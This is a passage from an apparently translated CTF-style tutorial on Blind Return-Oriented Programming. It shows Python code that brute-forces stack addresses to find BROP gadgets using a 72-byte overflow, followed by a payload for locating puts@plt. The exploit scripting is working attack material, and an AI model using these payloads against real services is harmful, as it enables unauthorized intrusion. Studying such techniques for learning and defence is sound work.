 ```python
        return False

    except Exception:

        sh.close()

        return True





##length = getbufferflow_length()

length = 72

##get_stop_addr(length)

stop_gadget = 0x4006b6

addr = 0x400740

while 1:

    print hex(addr)

    if get_brop_gadget(length, stop_gadget, addr):

        print 'possible brop gadget: 0x%x' % addr

        if check_brop_gadget(length, addr):

            print 'success brop gadget: 0x%x' % addr

            break

    addr += 1

```



In this way, we basically got the bopp gadgets address 0x4007ba


#### Determine the puts@plt address


According to the above, we can construct the following payload to get the acquisition.


```text

payload = 'A'*72 +p64(pop_rdi_ret)+p64(0x400000)+p64(addr)+p64(stop_gadget)

```
